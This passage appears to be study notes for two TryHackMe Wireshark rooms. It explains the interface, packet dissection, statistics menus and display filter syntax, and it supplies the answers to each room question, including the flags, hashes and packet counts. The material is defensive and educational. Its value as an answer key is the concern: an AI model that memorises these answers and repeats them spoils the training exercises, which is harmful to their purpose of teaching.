

# **Wireshark: The Basics**

## _**1: Introduction**_

Wireshark is an open-source, cross-platform network packet analyser tool capable of sniffing and investigating live traffic and inspecting packet captures (PCAP). It is commonly used as one of the best packet analysis tools. In this room, we will look at the basics of Wireshark and use it to perform fundamental packet analysis.

There are two capture files given in the VM. You can use the "http1.pcapng" file to simulate the actions shown in the screenshots. Please note that you need to use the "Exercise.pcapng" file to answer the questions.

Which file is used to simulate the screenshots?

- http1.pcapng

Which file is used to answer the questions?

- Exercise.pcapng

## _**2: Tool Overview**_

**Use Cases**  

Wireshark is one of the most potent traffic analyser tools available in the wild. There are multiple purposes for its use:  

- Detecting and troubleshooting network problems, such as network load failure points and congestion.
- Detecting security anomalies, such as rogue hosts, abnormal port usage, and suspicious traffic.
- Investigating and learning protocol details, such as response codes and payload data. 

Note: Wireshark is not an Intrusion Detection System (IDS). It only allows analysts to discover and investigate the packets in depth. It also doesn't modify packets; it reads them. Hence, detecting any anomaly or network problem highly relies on the analyst's knowledge and investigation skills.

**GUI and Data**  

Wireshark GUI opens with a single all-in-one page, which helps users investigate the traffic in multiple ways. At first glance, five sections stand out.

|
|**Toolbar** | The main toolbar contains multiple menus and shortcuts for packet sniffing and processing, including filtering, sorting, summarising, exporting and merging. |
|**Display Filter Bar** | The main query and filtering section. |
|**Recent Files** | List of the recently investigated files. You can recall listed files with a double-click. |
|**Capture Filter and Interfaces** | Capture filters and available sniffing points (network interfaces).  The network interface is the connection point between a computer and a network. The software connection (e.g., lo, eth0 and ens33) enables networking hardware.|
|**Status Bar** | Tool status, profile and numeric packet information.|

The below picture shows Wireshark's main window. The sections explained in the table are highlighted. Now open the Wireshark and go through the walkthrough.

**Loading PCAP Files**  

The above picture shows Wireshark's empty interface. The only available information is the recently processed  "http1.cap" file. Let's load that file and see Wireshark's detailed packet presentation. Note that you can also use the **"File"** menu, dragging and dropping the file, or double-clicking on the file to load a pcap.

Now, we can see the processed filename, detailed number of packets and packet details. Packet details are shown in three different panes, which allow us to discover them in different formats. 

|
|Packet List Pane | Summary of each packet (source and destination addresses, protocol, and packet info). You can click on the list to choose a packet for further investigation. Once you select a packet, the details will appear in the other panels.  |
|Packet Details Pane | Detailed protocol breakdown of the selected packet. |
|Packet Bytes Pane |Hex and decoded ASCII representation of the selected packet. It highlights the packet field depending on the clicked section in the details pane. |

**Colouring Packets**

Along with quick packet information, Wireshark also colour packets in order of different conditions and the protocol to spot anomalies and protocols in captures quickly (this explains why almost everything is green in the given screenshots). This glance at packet information can help track down exactly what you're looking for during analysis. You can create custom colour rules to spot events of interest by using display filters, and we will cover them in the next room. Now let's focus on the defaults and understand how to view and use the represented data details.

Wireshark has two types of packet colouring methods: temporary rules that are only available during a program session and permanent rules that are saved under the preference file (profile) and available for the next program session. You can use the "right-click menu" or "View --> Coloring Rules" menu to create permanent colouring rules. The "Colourise Packet List" menu activates/deactivates the colouring rules. Temporary packet colouring is done with the "right-click menu" or "View --> Conversation Filter" menu, which is covered in TASK-5.

The default permanent colouring is shown below.

**Traffic Sniffing**

You can use the blue **"shark button"** to start network sniffing (capturing traffic), the red button will stop the sniffing, and the green button will restart the sniffing process. The status bar will also provide the used sniffing interface and the number of collected packets.

**Merge PCAP Files** 

Wireshark can combine two pcap files into one single file. You can use the **"File --> Merge"** menu path to merge a pcap with the processed one. When you choose the second file, Wireshark will show the total number of packets in the selected file. Once you click "open", it will merge the existing pcap file with the chosen one and create a new pcap file. Note that you need to save the "merged" pcap file before working on it.

**View File Details**

Knowing the file details is helpful. Especially when working with multiple pcap files, sometimes you will need to know and recall the file details (File hash, capture time, capture file comments, interface and statistics) to identify the file, classify and prioritise it. You can view the details by following "**Statistics --> Capture File Properties"** or by clicking the **"pcap icon located on the left bottom"** of the window.

**Questions**

Read the "capture file comments". What is the flag?

- located at the bottom of the "capture file properties" page
- TryHackMe_Wireshark_Demo

What is the total number of packets?

- located at the bottom right side of the window
- 58620

What is the SHA256 hash value of the capture file?

- located in the "File" section of the "capture file properties" page
- f446de335565fb0b0ee5e5a3266703c778b2f3dfad7efeaeccb2da5641a6d6eb

## _**3: Packet Dissection**_

Packet dissection is also known as protocol dissection, which investigates packet details by decoding available protocols and fields. Wireshark supports a long list of protocols for dissection, and you can also write your dissection scripts. You can find more details on dissection [**here**](https://github.com/boundary/wireshark/blob/master/doc/README.dissector).

**Note:** This section covers how Wireshark uses OSI layers to break down packets and how to use these layers for analysis. It is expected that you already have background knowledge of the OSI model and how it works. 

**Packet Details**

You can click on a packet in the packet list pane to open its details (double-click will open details in a new window). Packets consist of 5 to 7 layers based on the OSI model. We will go over all of them in an HTTP packet from a sample capture. The picture below shows viewing packet number 27.

Each time you click a detail, it will highlight the corresponding part in the packet bytes pane.

Let's have a closer view of the details pane.

We can see seven distinct layers to the packet: frame/packet, source [MAC], source [IP], protocol, protocol errors, application protocol, and application data. Below we will go over the layers in more detail.

The Frame (Layer 1): This will show you what frame/packet you are looking at and details specific to the Physical layer of the OSI model.

Source [MAC] (Layer 2): This will show you the source and destination MAC Addresses; from the Data Link layer of the OSI model.

Source [IP] (Layer 3): This will show you the source and destination IPv4 Addresses; from the Network layer of the OSI model.

Protocol (Layer 4): This will show you details of the protocol used (UDP/TCP) and source and destination ports; from the Transport layer of the OSI model.

Protocol Errors: This continuation of the 4th layer shows specific segments from TCP that needed to be reassembled.

Application Protocol (Layer 5): This will show details specific to the protocol used, such as HTTP, FTP,  and SMB. From the Application layer of the OSI model.

Application Data: This extension of the 5th layer can show the application-specific data.

**Questions**

View packet number 38. Which markup language is used under the HTTP protocol?

- The number column on the left side of the screen is the packet number
- eXtensible Markup Language

What is the arrival date of the packet? (Answer format: Month/Day/Year)

- Under the Frame section "Arrival Time"
- May 13, 2004
- 05/13/2004

What is the TTL value?

- Under the Internet Protocol section
- "Time to live"
- 47

What is the TCP payload size?

- Under the Transmission Control Protocol section
- "TCP payload"
- 424

What is the e-tag value?

- Under the Hypertext Transfer Protocol section
- "ETag"
- 9a01a-4696-7e354b00

## _**4: Packet Navigation**_

**Packet Numbers**

Wireshark calculates the number of investigated packets and assigns a unique number for each packet. This helps the analysis process for big captures and makes it easy to go back to a specific point of an event.

**Go to Packet**

Packet numbers do not only help to count the total number of packets or make it easier to find/investigate specific packets. This feature not only navigates between packets up and down; it also provides in-frame packet tracking and finds the next packet in the particular part of the conversation. You can use the **"Go"** menu and toolbar to view specific packets.

**Find Packets**

Apart from packet number, Wireshark can find packets by packet content. You can use the **"Edit --> Find Packet"** menu to make a search inside the packets for a particular event of interest. This helps analysts and administrators to find specific intrusion patterns or failure traces.

There are two crucial points in finding packets. The first is knowing the input type. This functionality accepts four types of inputs (Display filter, Hex, String and Regex). String and regex searches are the most commonly used search types. Searches are case insensitive, but you can set the case sensitivity in your search by clicking the radio button.

The second point is choosing the search field. You can conduct searches in the three panes (packet list, packet details, and packet bytes), and it is important to know the available information in each pane to find the event of interest. For example, if you try to find the information available in the packet details pane and conduct the search in the packet list pane, Wireshark won't find it even if it exists.

**Mark Packets**

Marking packets is another helpful functionality for analysts. You can find/point to a specific packet for further investigation by marking it. It helps analysts point to an event of interest or export particular packets from the capture. You can use the "Edit" or the "right-click" menu to mark/unmark packets.

Marked packets will be shown in black regardless of the original colour representing the connection type. Note that marked packet information is renewed every file session, so marked packets will be lost after closing the capture file.

**Packet Comments**

Similar to packet marking, commenting is another helpful feature for analysts. You can add comments for particular packets that will help to further the investigation or remind and point out important/suspicious points for other layer analysts. Unlike packet marking, the comments can stay within the capture file until the operator removes them.

**Export Packets**

Capture files can contain thousands of packets in a single file. As mentioned earlier, Wireshark is not an IDS, so sometimes, it is necessary to separate specific packages from the file and dig deeper to resolve an incident. This functionality helps analysts share only the suspicious packages (decided scope). Thus redundant information is not included in the analysis process. You can use the **"File"** menu to export packets.

**Export Objects (Files)**

Wireshark can extract files transferred through the wire. For a security analyst, it is vital to discover shared files and save them for further investigation. Exporting objects is available only for selected protocol's streams (DICOM, HTTP, IMF, SMB and TFTP).

**Time Display Format**

Wireshark lists the packets as they are captured, so investigating the default flow is not always the best option. By default, Wireshark shows the time in "Seconds Since Beginning of Capture", the common usage is using the UTC Time Display Format for a better view. You can use the "View --> Time Display Format" menu to change the time display format.

**Expert Info**

Wireshark also detects specific states of protocols to help analysts easily spot possible anomalies and problems. Note that these are only suggestions, and there is always a chance of having false positives/negatives. Expert info can provide a group of categories in three different severities. Details are shown in the table below.

Frequently encountered information groups are listed in the table below. You can refer to Wireshark's official documentation for more information on the expert information entries.

You can use the "lower left bottom section" in the status bar or "Analyse --> Expert Information" menu to view all available information entries via a dialogue box. It will show the packet number, summary, group protocol and total occurrence.

**Questions**

Search the "r4w" string in packet details. What is the name of artist 1?

- Edit -> Find Packet -> r4w
- I was looking for a name not the unique ID, just need to finish the string
- r4w8173

Go to packet 12 and read the comments. What is the answer?

- Go -> Go to packet -> 12 -> right click packet -> Packet comment -> scroll to bottom for more instructions
- Go to packet number 39765
Look at the "packet details pane". Right-click on the JPEG section and "Export packet bytes". This is an alternative way of extracting data from a capture file. What is the MD5 hash value of extracted image?
- Go -> Go to packet -> 39765 -> right click on JPEG section -> export packet bytes -> name file and save
- Open terminal -> `cd Desktop/` -> md5sum [filename] 
- 911cd574a42865a956ccde2d04495ebf

There is a ".txt" file inside the capture file. Find the file and read it; what is the alien's name?

- File -> Export Objects -> Text Filter: txt -> save -> open the file
- PACKETMASTER

Look at the expert info section. What is the number of warnings?

- Analyze -> Expert Information
- or red dot in the bottom left corner
- 1636

## _**5: Packet Filtering**_

Wireshark has a powerful filter engine that helps analysts to narrow down the traffic and focus on the event of interest. Wireshark has two types of filtering approaches: capture and display filters. Capture filters are used for **"capturing"** only the packets valid for the used filter. Display filters are used for **"viewing"** the packets valid for the used filter. We will discuss these filters' differences and advanced usage in the next room. Now let's focus on basic usage of the display filters, which will help analysts in the first place.

Filters are specific queries designed for protocols available in Wireshark's official protocol reference. While the filters are only the option to investigate the event of interest, there are two different ways to filter traffic and remove the noise from the capture file. The first one uses queries, and the second uses the right-click menu. Wireshark provides a powerful GUI, and there is a golden rule for analysts who don't want to write queries for basic tasks: _**"If you can click on it, you can filter and copy it"**_ .  
  
**Apply as Filter**

This is the most basic way of filtering traffic. While investigating a capture file, you can click on the field you want to filter and use the "right-click menu" or **"Analyse** **--> Apply as Filter"** menu to filter the specific value. Once you apply the filter, Wireshark will generate the required filter query, apply it, show the packets according to your choice, and hide the unselected packets from the packet list pane. Note that the number of total and displayed packets are always shown on the status bar.

**Conversation filter**

When you use the "Apply as a Filter" option, you will filter only a single entity of the packet. This option is a good way of investigating a particular value in packets. However, suppose you want to investigate a specific packet number and all linked packets by focusing on IP addresses and port numbers. In that case, the "Conversation Filter" option helps you view only the related packets and hide the rest of the packets easily. You can use the"right-click menu" or "**Analyse --> Conversation Filter**" menu to filter conversations.

**Colourise Conversation**

This option is similar to the "Conversation Filter" with one difference. It highlights the linked packets without applying a display filter and decreasing the number of viewed packets. This option works with the "Colouring Rules" option and changes the packet colours without considering the previously applied colour rule. You can use the "right-click menu" or **"View --> Colourise Conversation"** menu to colourise a linked packet in a single click. Note that you can use the "View --> Colourise Conversation --> Reset Colourisation" menu to undo this operation.

**Prepare as Filter**

Similar to "Apply as Filter", this option helps analysts create display filters using the "right-click" menu. However, unlike the previous one, this model doesn't apply the filters after the choice. It adds the required query to the pane and waits for the execution command (enter) or another chosen filtering option by using the **".. and/or.."** from the "right-click menu".

**Apply as Column**

By default, the packet list pane provides basic information about each packet. You can use the "right-click menu" or "Analyse **\-->**  Apply as Column" menu to add columns to the packet list pane. Once you click on a value and apply it as a column, it will be visible on the packet list pane. This function helps analysts examine the appearance of a specific value/field across the available packets in the capture file. You can enable/disable the columns shown in the packet list pane by clicking on the top of the packet list pane.

**Follow Stream**

Wireshark displays everything in packet portion size. However, it is possible to reconstruct the streams and view the raw traffic as it is presented at the application level. Following the protocol, streams help analysts recreate the application-level data and understand the event of interest. It is also possible to view the unencrypted protocol data like usernames, passwords and other transferred data.

You can use the"right-click menu" or  **"Analyse** **--> Follow TCP/UDP/HTTP Stream"** menu to follow traffic streams. Streams are shown in a separate dialogue box; packets originating from the server are highlighted with blue, and those originating from the client are highlighted with red.

Once you follow a stream, Wireshark automatically creates and applies the required filter to view the specific stream. Remember, once a filter is applied, the number of the viewed packets will change. You will need to use the "**X** **button**" located on the right upper side of the display filter bar to remove the display filter and view all available packets in the capture file.

**Questions**

Go to packet number 4. Right-click on the "Hypertext Transfer Protocol" and apply it as a filter. Now, look at the filter pane. What is the filter query?

- right click apply filter -> selected
- http

What is the number of displayed packets?

- look at the bottom right of the window
- 1089

Go to packet number 33790 and follow the stream. What is the total number of artists?

- Go -> Go to packet -> 33790
- right click follow stream -> http stream -> Find: artist=
- 3
- it might be easier to export the php file
- File -> export objects -> http -> Text Filter: php -> artists.php -> save
- right click file -> open with pluma -> search for artist= -> hi-lights all of them (only 3 in the file)
- 3

What is the name of the second artist?

- on the same PHP file look for "artist=2"
- `artist=2'><h3>Blad3</h3>`
- Blad3
- or right click follow stream -> http stream -> Find: artist=2
- `artist=2'><h3>Blad3</h3>`
- Blad3

# **Wireshark: Packet Operations**

## _**1: Introduction**_

In this room, we will cover the fundamentals of packet analysis with Wireshark and investigate the event of interest at the packet-level. Note that this is the second room of the Wireshark room trio, and it is suggested to visit the first room ([**Wireshark: The Basics**](https://tryhackme.com/room/wiresharkthebasics)) to practice and refresh your Wireshark skills before starting this one.

In the first room, we covered the basics of Wireshark by focusing on how it operates and how to use it to investigate traffic captures. In this room, we will cover advanced features of Wireshark by focusing on packet-level details with Wireshark statistics, filters, operators and functions.

## _**2: Statistics | Summary**_

**Statistics**

This menu provides multiple statistics options ready to investigate to help users see the big picture in terms of the scope of the traffic, available protocols, endpoints and conversations, and some protocol-specific details like DHCP, DNS and HTTP/2. For a security analyst, it is crucial to know how to utilise the statical information. This section provides a quick summary of the processed pcap, which will help analysts create a hypothesis for an investigation. You can use the **"Statistics"** menu to view all available options. Now start the given VM, open the Wireshark, load the "Exercise.pcapng" file and go through the walkthrough.

**Resolved Addresses**

This option helps analysts identify IP addresses and DNS names available in the capture file by providing the list of the resolved addresses and their hostnames. Note that the hostname information is taken from DNS answers in the capture file. Analysts can quickly identify the accessed resources by using this menu. Thus they can spot accessed resources and evaluate them according to the event of interest. You can use the **"Statistics --> Resolved Addresses"** menu to view all resolved addresses by Wireshark.

**Protocol Hierarchy**

This option breaks down all available protocols from the capture file and helps analysts view the protocols in a tree view based on packet counters and percentages. Thus analysts can view the overall usage of the ports and services and focus on the event of interest. The golden rule mentioned in the previous room is valid in this section; you can right-click and filter the event of interest. You can use the **"Statistics --> Protocol Hierarchy"** menu to view this info.

**Conversations**

Conversation represents traffic between two specific endpoints. This option provides the list of the conversations in five base formats; ethernet, IPv4, IPv6, TCP and UDP. Thus analysts can identify all conversations and contact endpoints for the event of interest. You can use the **"Statistic --> Conversations"** menu to view this info.

Endpoints

The endpoints option is similar to the conversations option. The only difference is that this option provides unique information for a single information field (Ethernet, IPv4, IPv6, TCP and UDP ). Thus analysts can identify the unique endpoints in the capture file and use it for the event of interest. You can use the **"Statistics --> Endpoints"** menu to view this info.

Wireshark also supports resolving MAC addresses to human-readable format using the manufacturer name assigned by IEEE. Note that this conversion is done through the first three bytes of the MAC address and only works for the known manufacturers. When you review the ethernet endpoints, you can activate this option with the **"Name resolution"** button in the lower-left corner of the endpoints window.

Name resolution is not limited only to MAC addresses. Wireshark provides IP and port name resolution options as well. However, these options are not enabled by default. If you want to use these functionalities, you need to activate them through the **"Edit --> Preferences --> Name Resolution"** menu. Once you enable IP and port name resolution, you will see the resolved IP address and port names in the packet list pane and also will be able to view resolved names in the "Conversations" and "Endpoints" menus as well.

Besides name resolution, Wireshark also provides an IP geolocation mapping that helps analysts identify the map's source and destination addresses. But this feature is not activated by default and needs supplementary data like the GeoIP database. Currently, Wireshark supports MaxMind databases, and the latest versions of the Wireshark come configured MaxMind DB resolver. However, you still need MaxMind DB files and provide the database path to Wireshark by using the **"Edit --> Preferences --> Name Resolution --> MaxMind database directories"** menu. Once you download and indicate the path, Wireshark will automatically provide GeoIP information under the IP protocol details for the matched IP addresses.

Endpoints and GeoIP view.

**Note:** You need an active internet connection to view the GeoIP map.

**Questions**

Investigate the resolved addresses. What is the IP address of the hostname starts with "bbc"?

- open Wireshark
- File -> Open -> Exercise.pcapng
- Statistics -> Resolved Addresses
- Search for entry (min 3 characters) -> bbc
- 199.232.24.81

What is the number of IPv4 conversations?

- Statistics -> Conversations -> IPv4 tab
- 435

How many bytes (k) were transferred from the "Micro-St" MAC address?

- Statistics -> Endpoints -> Name resolution
- Micro-St 9a:f1:f5 -> Tx Bytes column
- 1083
- Try Hack Me wants the Total Bytes
- Micro-St 9a:f1:f5 -> Bytes column
- 7474

What is the number of IP addresses linked with "Kansas City"?

- Statistics -> Endpoints -> Name resolution
- IPv4 tab -> City column -> Kansas City
- 4

Which IP address is linked with "Blicnet" AS Organisation?

- Statistics -> Endpoints
- IPv4 tab -> AS Organization column -> double click column name to sort -> hi-light Blicnet d.o.o.
- 188.246.82.7

## _**3: Statistics | Protocol Details**_

**IPv4 and IPv6**

Up to here, almost all options provided information that contained both versions of the IP addresses. The statistics menu has two options for narrowing the statistics on packets containing a specific IP version. Thus, analysts can identify and list all events linked to specific IP versions in a single window and use it for the event of interest. You can use the **"Statistics --> IPvX Statistics"** menu to view this info.

**DNS**

This option breaks down all DNS packets from the capture file and helps analysts view the findings in a tree view based on packet counters and percentages of the DNS protocol. Thus analysts can view the DNS service's overall usage, including rcode, opcode, class, query type, service and query stats and use it for the event of interest. You can use the **"Statistics --> DNS"** menu to view this info.

**HTTP**

This option breaks down all HTTP packets from the capture file and helps analysts view the findings in a tree view based on packet counters and percentages of the HTTP protocol. Thus analysts can view the HTTP service's overall usage, including request and response codes and the original requests. You can use the **"Statistics --> HTTP"** menu to view this info.

**Questions**

What is the most used IPv4 destination address?

- Open Wireshark
- Open file Exercise.pcapng on desktop
- Statistics -> IPv4 Statistics -> Destinations and Ports -> double click Count column to sort
- 10.100.1.33 with 29387

What is the max service request-response time of the DNS packets?

- Statistics -> DNS -> On the Topic/Item column look for Service Stats -> expand and look for request-response time (secs) and hi-light it -> look at the Max val column
- 0.467897

What is the number of HTTP Requests accomplished by "rad[.]msn[.]com?

- Statistics -> HTTP -> Requests -> look under Topic/Item for the above web site and hi-light it -> scroll right to Count column
- 39

## _**4: Packet Filtering | Principles**_

In the previous room ([**Wireshark | The Basics**](https://tryhackme.com/room/wiresharkthebasics)), we covered packet filtering and how to filter packets without using queries. In this room, we will use queries to filter packets. As mentioned earlier, there are two types of filters in Wireshark. While both use similar syntax, they are used for different purposes. Let's remember the difference between these two categories.  

|
|Capture Filters|This type of filter is used to save only a specific part of the traffic. It is set before capturing traffic and not changeable during the capture.|
|Display Filters|This type of filter is used to investigate packets by reducing the number of visible packets, and it is changeable during the capture.|

**Note:** You cannot use the display filter expressions for capturing traffic and vice versa.

The typical use case is capturing everything and filtering the packets according to the event of interest. Only experienced professionals use capture filters and sniff traffic. This is why Wireshark supports more protocol types in display filters. Please ensure you thoroughly learn how to use capture filters before using them in a live environment. Remember, you cannot capture the event of interest if your capture filter is not matching the specific traffic pattern you are looking for.  
  

**Capture Filter Syntax**

These filters use byte offsets hex values and masks with boolean operators, and it is not easy to understand/predict the filter's purpose at first glance. The base syntax is explained below:  

- Scope: host, net, port and portrange.
- Direction: src, dst, src or dst, src and dst,
- Protocol: ether, wlan, ip, ip6, arp, rarp, tcp and udp.
- Sample filter to capture port 80 traffic: `tcp port 80`  
    

You can read more on capture filter syntax from [here](https://www.wireshark.org/docs/man-pages/pcap-filter.html) and [here](https://gitlab.com/wireshark/wireshark/-/wikis/CaptureFilters#useful-filters). A quick reference is available under the **"Capture --> Capture Filters"** menu.

**Display Filter Syntax**

This is Wireshark's most powerful feature. It supports 3000 protocols and allows conducting packet-level searches under the protocol breakdown. The official "[Display Filter Reference](https://www.wireshark.org/docs/dfref/)" provides all supported protocols breakdown for filtering.

- Sample filter to capture port 80 traffic: `tcp.port == 80`  

Wireshark has a built-in option (Display Filter Expression) that stores all supported protocol structures to help analysts create display filters. We will cover the "Display Filter Expression" menu later. Now let's understand the fundamentals of the display filter operations. A quick reference is available under the **"Analyse --> Display Filters"** menu.

**Comparison Operators**

You can create display filters by using different comparison operators to find the event of interest. The primary operators are shown in the table below.

<table class="table table-bordered"><tbody><tr><td><b>English</b></td><td><b>C-Like</b></td><td><b>Description</b></td><td><b>Example</b></td></tr><tr><td>eq</td><td>==</td><td>Equal</td><td>
<code>ip.src == 10.10.10.100</code>
</td></tr><tr><td>ne</td><td>!=</td><td>Not equal</td><td>
<code>ip.src != 10.10.10.100</code>
</td></tr><tr><td>gt</td><td>&gt;</td><td>Greater than</td><td>
<code>ip.ttl &gt; 250</code>
</td></tr><tr><td>lt</td><td>&lt;</td><td>Less Than</td><td>
<code>ip.ttl &lt; 10</code> 
</td></tr><tr><td>ge</td><td>&gt;=</td><td>Greater than or equal to</td><td>
<code>ip.ttl &gt;= 0xFA</code>
</td></tr><tr><td>le</td><td>&lt;=</td><td>Less than or equal to</td><td>
<code>ip.ttl &lt;= 0xA</code>
</td></tr></tbody></table>

**Note:** Wireshark supports decimal and hexadecimal values in filtering. You can use any format you want according to the search you will conduct.

**Logical Expressions**

Wireshark supports boolean syntax. You can create display filters by using logical operators as well.

<table class="table table-bordered"><tbody><tr><td><b>English&nbsp;&nbsp;</b></td><td><b>C-Like</b></td><td><b>Description&nbsp;&nbsp;</b></td><td><b>Example</b></td></tr><tr><td>and</td><td>&amp;&amp;</td><td>Logical AND</td><td>
<code>(ip.src == 10.10.10.100) AND (ip.src == 10.10.10.111)</code>
</td></tr><tr><td>or</td><td>||</td><td>Logical OR</td><td>
<code>(ip.src == 10.10.10.100) OR (ip.src == 10.10.10.111)</code>
</td></tr><tr><td>not</td><td>!</td><td>Logical NOT</td><td>
<code>!(ip.src == 10.10.10.222)</code>

<b>Note:</b>&nbsp;Usage of <code>!=value</code>&nbsp;is deprecated; using it could provide inconsistent results. Using the <code>!(value)</code><b></b>&nbsp;style is suggested for more consistent results.
</td></tr></tbody></table> 

**Note:** Usage of `!=value` is deprecated; using it could provide inconsistent results. Using the `!(value)` style is suggested for more consistent results.

**Packet Filter Toolbar**

The filter toolbar is where you create and apply your display filters. It is a smart toolbar that helps you create valid display filters with ease. Before starting to filter packets, here are a few tips:  

- Packet filters are defined in lowercase.
- Packet filters have an autocomplete feature to break down protocol details, and each detail is represented by a "dot".
- Packet filters have a three-colour representation explained below.

Filter toolbar features are shown below.

## _**5: Packet Filtering | Protocol Filters**_

**Protocol Filters**

As mentioned in the previous task, Wireshark supports 3000 protocols and allows packet-level investigation by filtering the protocol fields. This task shows the creation and usage of filters against different protocol fields. 

**IP Filters**

IP filters help analysts filter the traffic according to the IP level information from the packets (Network layer of the OSI model). This is one of the most commonly used filters in Wireshark. These filters filter network-level information like IP addresses, version, time to live, type of service, flags, and checksum values.

The common filters are shown in the given table.

<table class="table table-bordered" style="width:1075px"><tbody><tr><td>Filter</td><td>Description</td></tr><tr><td>
<code style="font-size:14px">ip</code>
</td><td style="text-align:left">Show all IP packets.</td></tr><tr><td>
<code style="font-size:14px">ip.addr == 10.10.10.111</code>
</td><td style="text-align:left">Show all packets containing IP address 10.10.10.111.</td></tr><tr><td>
<code style="font-size:14px">ip.addr == 10.10.10.0/24</code>
</td><td style="text-align:left">Show all packets containing IP addresses from 10.10.10.0/24 subnet.</td></tr><tr><td>
<code style="font-size:14px">ip.src == 10.10.10.111</code>
</td><td style="text-align:left">Show all packets originated from 10.10.10.111</td></tr><tr><td>
<code style="font-size:14px">ip.dst == 10.10.10.111</code>
</td><td style="text-align:left">Show all packets sent to 10.10.10.111</td></tr><tr><td>ip.addr&nbsp;vs&nbsp;ip.src/ip.dst</td><td style="text-align:left">Note:&nbsp;The ip.addr filters the traffic without considering the packet direction. The ip.src/ip.dst filters the packet depending on the packet direction.</td></tr></tbody></table>

**TCP and UDP Filters**

TCP filters help analysts filter the traffic according to protocol-level information from the packets (Transport layer of the OSI model). These filters filter transport protocol level information like source and destination ports, sequence number, acknowledgement number, windows size, timestamps, flags, length and protocol errors.

<table class="table table-bordered" style="width:1075px"><tbody><tr><td>Filter </td><td>Description </td><td>Filter</td><td>Expression</td></tr><tr><td>
<code style="font-size:14px">tcp.port == 80</code>
</td><td style="text-align:left">Show all TCP packets with port 80&nbsp;</td><td>
<code style="font-size:14px">udp.port == 53</code> 
</td><td style="text-align:left">Show all UDP packets with port 53</td></tr><tr><td>
<code style="font-size:14px">tcp.srcport == 1234</code>
</td><td style="text-align:left">Show all TCP packets originating from port 1234</td><td>
<code style="font-size:14px">udp.srcport == 1234</code> 
</td><td style="text-align:left">Show all UDP packets originating from port 1234</td></tr><tr><td>
<code style="font-size:14px">tcp.dstport == 80</code>
</td><td style="text-align:left">Show all TCP packets sent to port 80</td><td>
<code style="font-size:14px">udp.dstport == 5353</code> 
</td><td style="text-align:left">Show all UDP packets sent to port 5353</td></tr></tbody></table>

**Application Level Protocol Filters | HTTP and DNS**

Application-level protocol filters help analysts filter the traffic according to application protocol level information from the packets (Application layer of the OSI model ). These filters filter application-specific information, like payload and linked data, depending on the protocol type.

<table class="table table-bordered" style="width:1075px"><tbody><tr><td>Filter</td><td>Description</td><td>Filter</td><td>Description</td></tr><tr><td>
<code style="font-size:14px">http</code>
</td><td>Show all HTTP packets</td><td>
<code style="font-size:14px">dns</code>
</td><td>Show all DNS packets</td></tr><tr><td>
<code style="font-size:14px">http.response.code == 200</code>
</td><td>Show all packets with HTTP response code "200"</td><td>
<code style="font-size:14px">dns.flags.response == 0</code> 
</td><td>Show all DNS requests</td></tr><tr><td>
<code style="font-size:14px">http.request.method == "GET"</code>
</td><td>Show all HTTP GET requests</td><td>
<code style="font-size:14px">dns.flags.response == 1</code> 
</td><td>Show all DNS responses</td></tr><tr><td>
<code style="font-size:14px">http.request.method == "POST"</code> 
</td><td>Show all HTTP POST requests</td><td>
<code style="font-size:14px">dns.qry.type == 1</code> 
</td><td>Show all DNS "A" records</td></tr></tbody></table>

**Display Filter Expressions**

As mentioned earlier, Wireshark has a built-in option (Display Filter Expression) that stores all supported protocol structures to help analysts create display filters. When an analyst can't recall the required filter for a specific protocol or is unsure about the assignable values for a filter, the Display Filter Expressions menu provides an easy-to-use display filter builder guide. It is available under the **"Analyse --> Display Filter Expression"** menu.

It is impossible to memorise all details of the display filters for each protocol. Each protocol can have different fields and can accept various types of values. The Display Filter Expressions menu shows all protocol fields, accepted value types (integer or string) and predefined values (if any). Note that it will take time and require practice to master creating filters and learning the protocol filter fields.

Note: The [first room](https://tryhackme.com/room/wiresharkthebasics) introduced the "Colouring Rules" (Task-2). Now you know how to create display filters and filter the event of interest. You can use the **"View --> Coloring Rules"** menu to assign colours to highlight your display filter results.

**Questions**

What is the number of IP packets?

- Start Wireshark
- Open Exercise.pcapng
- Apply Display filter of `ip`
- Bottom right side of window look for Packets then Displayed
- 81420

What is the number of packets with a "TTL value less than 10"?

- Apply Display filter of `ip.ttl < 10`
- Bottom right side of window look for Packets then Displayed
- 66

What is the number of packets which uses "TCP port 4444"?

- Apply Display filter of `tcp.port == 4444`
- Bottom right side of window look for Packets then Displayed
- 632

What is the number of "HTTP GET" requests sent to port "80"?

- Apply Display filter of `(tcp.port == 80) && (http.request.method == "GET")`
- Bottom right side of window look for Packets then Displayed
- 527

What is the number of "type A DNS Queries"?

- Apply Display filter of `(dns.flags.response == 0) && (dns.qry.type == 1)`
- Bottom right side of window look for Packets then Displayed
- 55
- This didn't give the right answer. You can see under the Protocol column some are LLMNR
- `((dns.flags.response == 0) && (dns.qry.type == 1)) && !(llmnr)`
- 51
- Or you can do the following
- Go to Statistics -> DNS
- Under Total Packets -> Query Type -> A (Host Address)
- Hi-lite A (Host Address) -> Display filter: `dns.flags.response==0` -> Apply
- Look at A (Host Address) Count Column
- 51
- An even easier filter is 
- `dns.a`

## **6: Advanced Filtering**

So far, you have learned the basics of packet filtering operations. Now it is time to focus on specific packet details for the event of interest. Besides the operators and expressions covered in the previous room, Wireshark has advanced operators and functions. These advanced filtering options help the analyst conduct an in-depth analysis of an event of interest.  

**Filter: "contains"**

<table class="table table-bordered"><tbody><tr><td style="text-align:center">Filter </td><td style="text-align:left"><b>contains</b> </td></tr><tr><td style="text-align:center"><b>Type</b></td><td style="text-align:left">Comparison Operator </td></tr><tr><td style="text-align:center"><b>Description</b></td><td style="text-align:left">Search a value inside packets. It is case-sensitive and provides similar functionality to the "Find" option by focusing on a specific field. </td></tr><tr><td style="text-align:center"><b>Example</b></td><td style="text-align:left">Find all "Apache" servers. </td></tr><tr><td style="text-align:center"><b>Workflow</b></td><td style="text-align:left">List all HTTP packets where packets' "server" field contains the "Apache" keyword. </td></tr><tr><td style="text-align:center"><b>Usage</b></td><td>
<code>http.server contains "Apache"</code>
</td></tr></tbody></table>

**Filter: "matches"**

